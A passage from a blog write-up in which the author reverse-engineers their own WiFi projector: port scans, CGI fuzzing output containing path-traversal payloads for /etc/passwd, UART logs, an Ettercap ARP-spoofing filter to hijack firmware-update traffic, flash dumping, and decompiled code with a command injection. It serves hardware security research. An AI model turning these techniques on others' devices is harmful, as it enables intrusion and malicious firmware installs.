

# (Im)PerfectProject(or)


A few years ago I bought a low-quality projector from Amazon so I could watch movies in my room. To be honest, it works pretty well, has a decent brightness, and has like five different ways you can stream video/audio to it, so I can't complain too much.

It does have an interesting mode of operation, where it broadcasts a WiFi network you can connect to, and then start controlling the device via a web interface. So what I'm seeing is: perfect hacking target.

## Reconnaissance

Let's start looking around! Step one for networked IoT devices is always doing an `nmap` scan:

```bash
$ sudo nmap -sV -O -A -p- 10.0.0.227 | tee nmap.projector.txt
Starting Nmap 7.93 ( https://nmap.org ) at 2023-12-28 16:56 EST
Nmap scan report for 10.0.0.227
Host is up (0.012s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Boa HTTPd 0.94.13
|_http-title: Lollipop wifi
|_http-server-header: Boa/0.94.13
MAC Address: 08:6F:48:97:FD:D0 (Shenzhen iComm Semiconductor)
Device type: general purpose
Running: Linux 4.X
OS CPE: cpe:/o:linux:linux_kernel:4.4.2
OS details: DD-WRT v3.0 (Linux 4.4.2)
Network Distance: 1 hop

TRACEROUTE
HOP RTT      ADDRESS
1   11.56 ms 10.0.0.227

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 22.13 seconds
```

Seems like the attack surface is the web interface that the projector exposes on port 80. The web server uses "Common Gateway Interface" (CGI) scripts for doing anything on the system. For example, to control the media (i.e. send pause, play, volume controls) you would visit `/cgi-bin/media.cgi`.

I looked up the `boa` web server, and it looks like it's a fairly old, relatively-discontinued web server. There's a few vulnerabilities and CVEs out for it, but they tend to be disputed and application-specific, not targetting the actual web server source. So, I'm not going to try too hard to actually inspect the server.

I want to find out what other CGI scripts exist, that just aren't linked via the web pages I've found. I've found that developers accidentally leave some debugging web pages behind, and they're often pretty helpful for my reversing processes. It's time to break out `wfuzz` and see if we get any hits! I cloned the repository to get their wordlists and ran it against a few of them to get these results:

```bash
$ cat wfuzz/wordlist/general/admin-panels.txt wfuzz/wordlist/general/megabeast.txt wfuzz/wordlist/vulns/cgis.txt wfuzz/wordlist/vulns/dirTraversal-nix.txt > wordlist.txt
$ wfuzz -w wordlist.txt --hc 404 http://10.0.0.227/cgi-bin/FUZZ\{scan\}.cgi | tee wfuzz.projector.txt 
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.0.0.227/cgi-bin/FUZZ.cgi
Total requests: 49759

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                    
=====================================================================

000000001:   200        210 L    425 W      9661 Ch     "scan"                                                                     
000009803:   200        1 L      7 W        80 Ch       "connect"                                                                  
000011646:   200        6 L      7 W        77 Ch       "debug"                                                                    
000012622:   200        4 L      9 W        119 Ch      "dialog"                                                                   
000013010:   502        4 L      13 W       131 Ch      "disconnect"                                                               
000017401:   502        4 L      13 W       131 Ch      "forget"                                                                   
000020416:   200        16 L     33 W       449 Ch      "home"                                                                     
000023441:   200        4 L      6 W        64 Ch       "key"                                                                      
000023876:   200        1 L      5 W        82 Ch       "language"                                                                 
000029796:   200        1 L      5 W        82 Ch       "password"                                                                 
000036182:   200        228 L    461 W      10570 Ch    "scan"                                                                     
000041421:   200        0 L      1 W        45 Ch       "test"                                                                     
000045596:   403        4 L      18 W       168 Ch      "%00/"                                                                     
000045595:   403        4 L      18 W       168 Ch      "%00"                                                                      
000048203:   200        1 L      5 W        82 Ch       "password"                                                                 
000048733:   200        0 L      1 W        45 Ch       "test"                                                                     
000049739:   403        4 L      18 W       168 Ch      "%00../%00../%00../etc/passwd"                                             
000049738:   403        4 L      18 W       168 Ch      "%00../%00../etc/passwd"                                                   
000049737:   403        4 L      18 W       168 Ch      "%00../etc/passwd"                                                         
000049742:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../%00../%00../etc/passwd"                           
000049740:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../etc/passwd"                                       
000049746:   403        4 L      18 W       169 Ch      ".%00./.%00./etc/passwd"                                                   
000049754:   403        4 L      18 W       170 Ch      "..%00/..%00/etc/passwd"                                                   
000049753:   403        4 L      18 W       170 Ch      "..%00/etc/passwd"                                                         
000049760:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/..%00/..%00/..%00/..%00/etc/passwd"               
000049759:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/..%00/..%00/..%00/etc/passwd"                     
000049758:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/..%00/..%00/etc/passwd"                           
000049757:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/..%00/etc/passwd"                                 
000049756:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/..%00/etc/passwd"                                       
000049755:   403        4 L      18 W       170 Ch      "..%00/..%00/..%00/etc/passwd"                                             
000049745:   403        4 L      18 W       169 Ch      ".%00./etc/passwd"                                                         
000049751:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./.%00./.%00./.%00./etc/passwd"                     
000049752:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./.%00./.%00./.%00./.%00./etc/passwd"               
000049750:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./.%00./.%00./etc/passwd"                           
000049749:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./.%00./etc/passwd"                                 
000049748:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./.%00./etc/passwd"                                       
000049747:   403        4 L      18 W       169 Ch      ".%00./.%00./.%00./etc/passwd"                                             
000049741:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../%00../etc/passwd"                                 
000049743:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../%00../%00../%00../etc/passwd"                     
000049744:   403        4 L      18 W       168 Ch      "%00../%00../%00../%00../%00../%00../%00../%00../etc/passwd"               

Total time: 0
Processed Requests: 49743
Filtered Requests: 49703
Requests/sec.: 0
```

This actually found a few CGI scripts that I hadn't found by looking at the HTML. I played around with a few of these, but didn't find anything *too* interesting. There is a `test.cgi` and a `debug.cgi`, but playing around with them didn't seem to be too fruitful: 

```bash
$ curl -vvv http://10.0.0.227/cgi-bin/test.cgi           
*   Trying 10.0.0.227:80...
* Connected to 10.0.0.227 (10.0.0.227) port 80 (#0)
> GET /cgi-bin/test.cgi HTTP/1.1
> Host: 10.0.0.227
> User-Agent: curl/7.88.1
> Accept: */*
> 
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Date: Thu, 01 Jan 1970 00:26:52 GMT
< Server: Boa/0.94.13
< Connection: close
< Content-type: text/html
< 
* Closing connection 0
<HTML><HEAD><TITLE>Test</TITLE></HEAD></HTML>
$ curl -vvv http://10.0.0.227/cgi-bin/debug.cgi
*   Trying 10.0.0.227:80...
* Connected to 10.0.0.227 (10.0.0.227) port 80 (#0)
> GET /cgi-bin/debug.cgi HTTP/1.1
> Host: 10.0.0.227
> User-Agent: curl/7.88.1
> Accept: */*
> 
* HTTP 1.0, assume close after body
< HTTP/1.0 200 OK
< Date: Thu, 01 Jan 1970 00:27:20 GMT
< Server: Boa/0.94.13
< Connection: close
< Content-type: text/html
< 
<HTML><BODY>
<HEAD>
<TITLE>Debug</TITLE>
</HEAD>
ADB enabled!
</BODY></HTML>
* Closing connection 0
```

You can see when you hit `debug.cgi` it'll say that the ADB is enabled. The only ADB I know of is the Android Debug Build, which I wouldn't expect on this device since it should be an embedded Linux device... I actually tried connecting to the projector using adb, but it didn't work:

```bash
$ ~/Desktop/Tools/platform-tools/adb connect 10.0.0.227:5037
failed to connect to '10.0.0.227:5037': Connection refused
$ ~/Desktop/Tools/platform-tools/adb connect 10.0.0.227     
failed to connect to '10.0.0.227:5555': Connection refused
```

## The Hardware

It's time to open this sucker up, and see if there is UART or some other serial communication mechanism. Now, this is where I messed up, *just a little bit*, and accidentally severed one of the connections on the ribbon cable that connects the actual projector lens to the board. The projector still turns on, but it's just a blank white screen now. Whoops! You can see an image of the main board, as well as some annotations, below.


### Getting UART

After opening up the projector, I noticed three pins labelled RX, TX, and GND. Pretty indicative of UART, but we'll need to connect to it first to make sure. Unfortunately, there weren't any header pins soldered on to it, so I'll have to do that first. After my incredibly shoddy solder job, I have everything hooked up:


We can use `minicom` to read the data coming from the UART, and, if it's an interactive shell, communicate to the board. After the startup sequence, I tried typing in some characters, but nothing happened, so I think this is purely just an output of `dmesg`, or something similar. I included some of the interesting parts of the startup sequence (it was a bit too verbose to include it all in a blog post):

```bash
$ sudo minicom --dev /dev/ttyUSB0 --capturefile minicom.projector.txt
##  Booting kernel from Legacy Image at 22000000 ...
   Image Name:   MVX4##I2M#g#######KL_LX409##[BR:
   Image Type:   ARM Linux Kernel Image (lzma compressed)
   Data Size:    2132140 Bytes = 2 MiB
   Load Address: 20008000
   Entry Point:  20008000
   Verifying Checksum ... OK
-usb_stop(USB_PORT0)
-usb_stop(USB_PORT1)
-usb_stop(USB_PORT2)
   Uncompressing Kernel Image ... 
[XZ] !!!reserved 0x21000000 length=0x 1000000 for xz!!
   XZ: uncompressed size=0x446000, ret=7
OK
atags:0x20000000

Starting kernel ...

Booting Linux on physical CPU 0x0
Linux version 4.9.84 (bill@ubuntu) (gcc version 8.2.1 20180802 (GNU Toolchain for the A-profile Architecture 8.2-2018-08 (arm-rel-8.23)) ) #2 SMP PREEMPT Mon Aug 8 15:00:20 CST 2022
CPU: ARMv7 Processor [410fc075] revision 5 (ARMv7), cr=50c5387d
CPU: div instructions available: patching division code
CPU: PIPT / VIPT nonaliasing data cache, VIPT aliasing instruction cache
cma: Reserved 2 MiB at 0x27200000
Memory policy: Data cache writealloc
percpu: Embedded 14 pages/cpu @c70bc000 s25112 r8192 d24040 u57344
Built 1 zonelists in Zone order, mobility grouping on.  Total pages: 15874
Kernel command line: console=ttyS0,115200 root=/dev/mtdblock3 rootfstype=squashfs ro init=/linuxrc LX_MEM=0x7f00000 mma_heap=MMU_MMA,miu=0,sz=0x3800000 mma_heap=mma_heap_name0,miu=0,sz=0x0800000 mma_memblock_remove=1 mmap_reserved=fb,miu=0,sz=0x300000,max_start_off=0x7C00000,max_end_off=0x7F00000
PID hash table entries: 256 (order: -2, 1024 bytes)
Dentry cache hash table entries: 8192 (order: 3, 32768 bytes)
Inode-cache hash table entries: 4096 (order: 2, 16384 bytes)
Memory: 54020K/64512K available (2489K kernel code, 259K rwdata, 1312K rodata, 168K init, 155K bss, 8444K reserved, 2048K cma-reserved)
Virtual kernel memory layout:
    vector  : 0xffff0000 - 0xffff1000   (   4 kB)
    fixmap  : 0xffc00000 - 0xfff00000   (3072 kB)
    vmalloc : 0xc8000000 - 0xff800000   ( 888 MB)
    lowmem  : 0xc0000000 - 0xc7f00000   ( 127 MB)
    modules : 0xbf800000 - 0xc0000000   (   8 MB)
      .text : 0xc0008000 - 0xc0276718   (2490 kB)
      .init : 0xc03e2000 - 0xc040c000   ( 168 kB)
      .data : 0xc040c000 - 0xc044cfe8   ( 260 kB)
       .bss : 0xc044e000 - 0xc0474c10   ( 156 kB)
SLUB: HWalign=64, Order=0-3, MinObjects=0, CPUs=2, Nodes=1
Creating 7 MTD partitions on "NOR_FLASH":
0x000000000000-0x000000060000 : "BOOT"
0x000000060000-0x000000270000 : "KERNEL"
0x000000270000-0x000000290000 : "LOGO"
0x000000290000-0x000000410000 : "rootfs"
0x000000410000-0x000000730000 : "miservice"
0x000000730000-0x000000f00000 : "customer"
0x000000f00000-0x000001000000 : "appconfigs"
[01/Jan/1970:00:00:12 +0000] boa: server version Boa/0.94.13
[01/Jan/1970:00:00:12 +0000] boa: server built Nov 20 2020 at 15:01:28.
[01/Jan/1970:00:00:12 +0000] boa: starting server pid=801, port 80
###sd20x_start_otaclient line 639 ota_host[43.254.2.156:8000/ota/htc/v53/sd203_SSV6X5X]
###sd20x_ota_download line 506 lollipop OTA[43.254.2.156:8000/ota/htc/v53/sd203_SSV6X5X]...
###fw_download line 77 prepare to download http://43.254.2.156:8000/ota/htc/v53/sd203_SSV6X5X/config.txt to /tmp/config.txt...
###fw_download line 79 connecting...
###fw_download line 81 fetching file size...
!!!sd20x_ota_download line 509 Download config.txt failed!
```

Given all of this output, we can start to learn a little bit more about the device. We know it's an ARM Linux device, and its firmware is packed using squashfs. There are a few partitions in the SPI NOR Flash chip. And interestingly, it seems to attempt Over the Air (OTA) updates by reaching out to `http://43.254.2.156:8000/ota/htc/v53/config.txt`. Let's look at this a little bit more!

The IP maps to `ecs-43-254-2-156.compute.hwclouds-dns.com` which is Huawei Cloud's DNS servers. I imagine this is pretty similar to Amazon's EC2 DNS names. If we go to the parent directory of the `config.txt`, we can keep navigating up the directory tree until we find a few other firmware types. I have *no* idea what devices these correspond to, but after some searching, I found an existing [`config.txt`](http://43.254.2.156:8000/ota/yg/v53/sd203_RTL8731AU/), along side two files: `otaunpack` and `sd203ota.bin.gz`. The configuration file seems to include some versioning information, and the MD5 hashes of the update and the `otaunpack` binary. I'm going to *guess* that the `otaunpack` binary does the unpacking and writing to the SPI NOR Flash chip:

```ini
major_version=1
middle_version=1
minor_version=28
suffix_version=RCB35
release_date=
force_update=false
MD5=678254f11abb56dc03dd28ebd214a6fe
MD5_OTA=5d5ed480e0061efcf1df14870a1bd952
```

I'm starting to wonder if I can force my own OTA by ARP Poisoning the network and advertising that IP Address as my own... Anyway, I'll look into that later. I want to try dumping the firmware from the Flash chip, but my SOIC8 reader doesn't get here until tomorrow. You know what that means... hand-jamming a bunch of components that shouldn't be in the same solution to get something that half works (⌐▨_▨).

### Dumping the Firmware

I have some Salae test-hooks, some cables, and a Flipper Zero. There's an app for the Flipper Zero that is specifically meant to read SPI Flash memory, so I'll be using that. First, we have to figure out the pin orientation/what the pins correspond to. Let's get a nice close up image of the chip and see if we can find a reference sheet for it.


I tried my best to read the text off the chip, and googled "XMC 25OH128" which brought me to the manufacturer's website, and lead me to the [chip's page](https://www.xmcwh.com/en/site/product_con/202). On the page it lists the reference schematic, which is necessary in order to figure out the how to wire it properly to the Flipper Zero.


This is great and all, but what it doesn't tell me is the orientation of the chip, i.e. is the dot on the chip the `CS` or the `SI`? I ended up pulling their actual [Data Sheet](https://www.xmcwh.com/uploads/801/XM25QH128C_Ver2.1.pdf) which proved to be *much* more useful.

In order to figure out which diagram from the Data Sheet we need to use, we have to figure out some information from the rest of the characters on the physical chip itself. Using the "Ordering Information" diagram from the Data Sheet, we can figure that this is the "SOP 208mil 8L" format because the chip reads "XMC25QH128CH":


We can reference Figure 2a on the Data Sheet to figure out the pin orientation, too:


Now, after all of that work, I realized that it was the same orientation for both Figures on the Data Sheet, so none of that was necessary. Lol.

Let's get some of the test-hooks onto the legs of the Flash chip, connect the wires to the hooks, and finally plug it all into our Flipper Zero. The [SPI Mem Manager](https://lab.flipper.net/apps/spi_mem_manager) app comes with a wiring guide:


I got the FlipperZero all wired up, but the screen just sits at "Detecting SPI Chip...". I looked at the source for the SPI Mem Manager, and saw that the [XMC25QH128CH might not be supported](https://github.com/flipperdevices/flipperzero-good-faps/blob/3322caaeb25e1fa50d55f864ba2034b2c8b09292/spi_mem_manager/lib/spi/spi_mem_chip_arr.c#L1401)... Bummer. I'll have a go again tomorrow when my SOIC8 reader gets in the mail:




## ARP Spoofing

I was originally going to wait for my SOIC8 reader to get into the mail, but I had some late night (lol, it's 8pm) motivation to try the ARP Spoofing route. The idea is we abuse the OTA functionality that the projector has, run our own web server hosting a malicious binary, and finally poison the ARP in our network to force the projector to think we're the update server.

I'll start a WireShark capture, start the projector, and wait for the ARP request packet (from the projector, asking for the OTA server) to come through to confirm this should work. Truth be told, and I'm sure it's evident at this point, I am *not* a networking guy. So, whether or not I'm on the right track for this is unbeknownst to me.

I didn't see the IP Address I expected, and that kind of makes sense. Why would you ask around your subnet who has the IP Address that doesn't belong in your network. After a few rounds of The Finals, and a solid 10 hours of sleep, I decided to try again.

I went ahead and used Ettercap to conduct the ARP Poisoning attack by selecting the Projector as "Target 1" and my gateway as "Target 2". I restarted the projector, quickly conducted the attack, and saw the connection I cared about:


The only other thing to do is figure out how to redirect that traffic to me, because right now, Ettercap is just inspecting the traffic. To do this, we'll make an Ettercap Filter that filters the connection to the one of interest, and changes the destination IP Address:

```c
if (eth.proto == IP && ip.src == '10.0.0.227' && ip.dst == '43.254.2.156' && ip.proto == TCP && tcp.dst == 8000) {
    msg("We have a connection match!");
    eth.src = "\x38\xba\xf8\x12\x76\xc2";
    ip.dst = '10.0.0.118';
}
```

And then, we can compile the filter, and dump out the "assembly" for it to confirm the logic:

```bash
sudo etterfilter -d -o test.ef test.ecf

????&&&=#+#????+----?;?;?;?;=!
etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team


 14 protocol tables loaded:
	DECODED DATA udp tcp esp gre icmp ipv6 ip arp wifi fddi tr eth 

 13 constants loaded:
	VRRP OSPF GRE UDP TCP ESP ICMP6 ICMP PPTP PPPOE IP6 IP ARP 

 Parsing source file 'test.filter'  done.

 Unfolding the meta-tree  done.

 Converting labels to real offsets  done.

 Writing output to 'test.ef'  done.

 -> Script encoded into 9 instructions.


$ sudo etterfilter -t test.ef

etterfilter 0.8.3.1 copyright 2001-2020 Ettercap Development Team

Content filters loaded from test.ef...
Disassebling "test.ef" content...

0000: TEST level 3, offset 12, size 4, == 167772387 [0xa0000e3]
0001: JUMP IF FALSE to 0009
0002: TEST level 3, offset 16, size 4, == 738067100 [0x2bfe029c]
0003: JUMP IF FALSE to 0009
0004: TEST level 3, offset 9, size 1, == 6 [0x6]
0005: JUMP IF FALSE to 0009
0006: TEST level 4, offset 2, size 2, == 8000 [0x1f40]
0007: JUMP IF FALSE to 0009
0008: ASSIGNMENT level 3, offset 16, size 4, value 167772278 [0xa000076]

 9 instructions decoded.
```

Let's load the filter into Ettercap, start a simple Python server using `python3 -m http.server 8000`, and restart the projector. Once the projector came back online, I conducted a spoof attack again (using Ettercap), saw the connection go through, and actually saw that Ettercap modified it. However, I didn't get any connections on my Python server. I'm not very sure why this is happening.

As a quick aside, while I was doing all of this, I was realizing that this attack vector is fairly limited, i.e. you have to wait for the projector to come online, ARP Poison the projector to start a MITM attack, and catch the OTA logic that only happens on startup. Until I found an endpoint that forces the device to attempt an OTA: `curl http://10.0.0.227/cgi-bin/ota_start.cgi -X POST --data-raw 'updatetxt=1'`. Now we can hit that whenever we want while we test our scripts.

I ran another test and something happened... My projector isn't connecting to the WiFi anymore! I messed around with the cables, turned it on and off a few times, but nothing was working. I plugged the UART back in and read the startup sequence log and it isn't even trying to connect to my WiFi network or get an IP. I think I accidentally clicked a "Reset the Device" button on the webpage, by accident erasing my WiFi login information. And since I accidentally broke the projector's ribbon cable, I can't make it re-join my network as I can't see the "screen". What a bummer. I ordered a replacement projector in the meantime.

## Back to Hardware

While I wait for my new projector to get here, I can try using the SOIC8 reader that just got in! I installed `flashrom`, plugged everything in, realized I had to use a different USB port (thanks random GitHub Issue!), and got a dump! I just made sure to specify the chip I was reading from and the programmer I was using:

```bash
$ sudo flashrom --verbose --programmer ch341a_spi --chip XM25QH128C --read rom.bin
flashrom unknown on Linux 6.1.0-16-amd64 (x86_64)
flashrom is free software, get the source code at https://flashrom.org

Using clock_gettime for delay loops (clk_id: 1, resolution: 1ns).
flashrom was built with GCC 12.2.0, little endian
Command line (7 args): flashrom --verbose --programmer ch341a_spi --chip XM25QH128C --read rom.bin
Initializing ch341a_spi programmer
Device revision is 3.0.4
The following protocols are supported: SPI.
Probing for XMC XM25QH128C, 16384 kB: compare_id: id1 0x20, id2 0x4018
Added layout entry 00000000 - 00ffffff named complete flash
Found XMC flash chip "XM25QH128C" (16384 kB, SPI) on ch341a_spi.
Chip status register is 0x40.
This chip may contain one-time programmable memory. flashrom cannot read
and may never be able to write it, hence it may not be able to completely
clone the contents of this chip (see man page for details).
===
This flash part has status UNTESTED for operations: PROBE READ ERASE WRITE WP
The test status of this chip may have been updated in the latest development
version of flashrom. If you are running the latest development version,
please email a report to flashrom@flashrom.org if any of the above operations
work correctly for you with this flash chip. Please include the flashrom log
file for all operations you tested (see the man page for details), and mention
which mainboard or programmer you tested in the subject line.
Thanks for your help!
Reading flash... done.
```


After longer than I was expecting it finished up. It looks to be 16Mb which is exactly what is expected after referring to the manufacturer's Data Sheet. I ran `binwalk` on it and extracted the filesystem: 

```bash
$ du -h rom.bin 
16M	rom.bin
$ file rom.bin 
rom.bin: data
$ binwalk -e rom.bin 

DECIMAL       HEXADECIMAL     DESCRIPTION
--------------------------------------------------------------------------------
84093         0x1487D         xz compressed data
84784         0x14B30         CRC32 polynomial table, little endian
196608        0x30000         uImage header, header size: 64 bytes, header CRC: 0xC8F7DBBE, created: 2022-08-08 06:58:19, image size: 186376 bytes, Data Address: 0x0, Entry Point: 0x0, data CRC: 0xC74D0BC1, OS: Firmware, CPU: ARM, image type: OS Kernel Image, compression type: lzma, image name: "MVX4##I2M#g#######CM_UBT1501#XVM"
196672        0x30040         xz compressed data
393216        0x60000         uImage header, header size: 64 bytes, header CRC: 0xAB7FA5B, created: 2022-08-08 07:00:30, image size: 2132140 bytes, Data Address: 0x20008000, Entry Point: 0x20008000, data CRC: 0xB1AF46FD, OS: Linux, CPU: ARM, image type: OS Kernel Image, compression type: lzma, image name: "MVX4##I2M#g#######KL_LX409##[BR:"
393280        0x60040         xz compressed data
2556304       0x270190        JPEG image data, JFIF standard 1.02
2571860       0x273E54        JPEG image data, JFIF standard 1.01

WARNING: Symlink points outside of the extraction directory: /home/axel/Desktop/(Im)PerfectProject(or)/_rom.bin-0.extracted/squashfs-root/lib/modules/4.9.84 -> /config/modules/4.9.84; changing link target to /dev/null for security purposes.
2686976       0x290000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 1549334 bytes, 215 inodes, blocksize: 131072 bytes, created: 2022-08-13 07:08:38
4259840       0x410000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 2899550 bytes, 129 inodes, blocksize: 131072 bytes, created: 2022-08-13 07:08:39

WARNING: Symlink points outside of the extraction directory: /home/axel/Desktop/(Im)PerfectProject(or)/_rom.bin-0.extracted/squashfs-root-1/ntpdate -> /config/ntpdate; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/axel/Desktop/(Im)PerfectProject(or)/_rom.bin-0.extracted/squashfs-root-1/iwconfig -> /config/iwconfig; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/axel/Desktop/(Im)PerfectProject(or)/_rom.bin-0.extracted/squashfs-root-1/sd20x_dongle -> /config/sd20x_dongle; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/axel/Desktop/(Im)PerfectProject(or)/_rom.bin-0.extracted/squashfs-root-1/iwpriv -> /config/iwpriv; changing link target to /dev/null for security purposes.

WARNING: Symlink points outside of the extraction directory: /home/axel/Desktop/(Im)PerfectProject(or)/_rom.bin-0.extracted/squashfs-root-1/res/boa/itag -> /run/itag; changing link target to /dev/null for security purposes.
7536640       0x730000        Squashfs filesystem, little endian, version 4.0, compression:xz, size: 6389004 bytes, 305 inodes, blocksize: 131072 bytes, created: 2022-08-13 07:08:39
15728768      0xF00080        Zlib compressed data, compressed
15729088      0xF001C0        Zlib compressed data, compressed
15729316      0xF002A4        Zlib compressed data, compressed

WARNING: Symlink points outside of the extraction directory: /home/axel/Desktop/(Im)PerfectProject(or)/_rom.bin-0.extracted/jffs2-root/p2p_supplicant -> /config/wifi/wpa_supplicant; changing link target to /dev/null for security purposes.
15729736      0xF00448        JFFS2 filesystem, little endian
15733244      0xF011FC        Zlib compressed data, compressed
15768844      0xF09D0C        Zlib compressed data, compressed

WARNING: Symlink points outside of the extraction directory: /home/axel/Desktop/(Im)PerfectProject(or)/_rom.bin-0.extracted/jffs2-root-0/p2p_supplicant -> /config/wifi/wpa_supplicant; changing link target to /dev/null for security purposes.
15794176      0xF10000        JFFS2 filesystem, little endian

WARNING: Symlink points outside of the extraction directory: /home/axel/Desktop/(Im)PerfectProject(or)/_rom.bin-0.extracted/jffs2-root-1/p2p_supplicant -> /config/wifi/wpa_supplicant; changing link target to /dev/null for security purposes.
15861956      0xF208C4        JFFS2 filesystem, little endian
15863468      0xF20EAC        JFFS2 filesystem, little endian
15863612      0xF20F3C        JFFS2 filesystem, little endian
15863908      0xF21064        JFFS2 filesystem, little endian
15864064      0xF21100        JFFS2 filesystem, little endian
15864372      0xF21234        JFFS2 filesystem, little endian
15864840      0xF21408        JFFS2 filesystem, little endian
15865000      0xF214A8        JFFS2 filesystem, little endian
15866300      0xF219BC        JFFS2 filesystem, little endian
15866744      0xF21B78        JFFS2 filesystem, little endian
15866892      0xF21C0C        JFFS2 filesystem, little endian
15867644      0xF21EFC        JFFS2 filesystem, little endian
15867948      0xF2202C        JFFS2 filesystem, little endian
15868252      0xF2215C        JFFS2 filesystem, little endian
15868552      0xF22288        JFFS2 filesystem, little endian
15870052      0xF22864        JFFS2 filesystem, little endian
15870352      0xF22990        JFFS2 filesystem, little endian
15870648      0xF22AB8        JFFS2 filesystem, little endian
15873500      0xF235DC        JFFS2 filesystem, little endian
16629248      0xFDBE00        JFFS2 filesystem, little endian
16629828      0xFDC044        Zlib compressed data, compressed
16630312      0xFDC228        JFFS2 filesystem, little endian
16630988      0xFDC4CC        JFFS2 filesystem, little endian
16646144      0xFE0000        JFFS2 filesystem, little endian
```

### Reversing the Firmware

Now that it's all unpacked, I want to find an exploit that I can trigger remotely. There was only one listening service on the projector, the `boa` web server, so I found where it was stored in the filesystem, and I found all the CGI scripts that were accessible. There were a lot more CGI scripts I didn't find with `wfuzz`, which makes sense as it was fairly naive search. I went through each `.cgi` file manually in Ghidra inspecting the functions for basic command injections - remember, it may be low-hanging fruit, but a shell is a shell. And didn't really find anything. Then I started hunting around for bad application logic and found something!

I noticed that there were a lot of function calls revolving around `{init,get,set,deinit,handle}LollipopConf`, and found that these were defined in `lib/libsd20x_mw.so`. After opening up that library in Ghidra, I found the responsible functions for getting/setting the configuration values, and it looks like it's just a simple `ini` handler. Initially, an application would call `lollipopConfInit` to read in the `ini`-formatted file stored in `/appconfigs/lollipop.conf`, and then the get/set functions would modify the configuration in memory, with a final `fini` call dumping it back to disk.

The `lollipop.conf` file has something called the `ota_host_{en,cn}` values, which correspond to a URL to grab the OTA update. After looking around some of the `cgi-bin/` files, I saw the `ota_host.cgi` file updates the lollipop configuration. However, it uses the `ota_host` key, not the `ota_host_en` or `ota_host_cn` keys. I'll look around the actual update files and try to find out which config value it uses. I found the usage in `libsd20x_msrv.so` library, but it turns out it's still just using the `ota_host_{en,cn}` keys, *not* the `ota_host` key that we can influence:


Bummer, but we'll have to keep hunting. I did notice a stack-based buffer overflow in `ota_start.cgi` which would be fun to exploit, but first I want to see if there's something a little more simple. When I do reverse-engineering on my own time, I don't have a very regimented process for going through systems and binaries; I just kind of look around at vulnerable functions and branch off from there. I was reversing the `libsd20x_mw.so` library, which seems to be responsible for most of the actual functionality that the server offers, and stumbled on the `connect_network` function. This function, shocker, connects to a network that you specify. But more importantly, it looks like there is a trivial injection in it:

```c

int connect_network(char *interface_name,char *ssid,char *param_3,int param_4,undefined4 *param_5,
                   int param_6,char *param_7)

{
  /* ... SNIP ... */
  pcVar4 = strstr((char *)param_5,"WEP");
  if (pcVar4 == (char *)0x0) {
    pcVar4 = strstr((char *)param_5,"PSK");
    if (pcVar4 == (char *)0x0) {
      iVar6 = 0;
    }
    else {
      iVar6 = 2;
    }
  }
  else {
    iVar6 = 1;
  }
  /* ... SNIP ... */
  getConnectedNetId(interface_name,acStack_530);
  iVar1 = strcmp(ssid,acStack_530);
  if (iVar1 == 0) {
    memset(acStack_228,0,0x200);
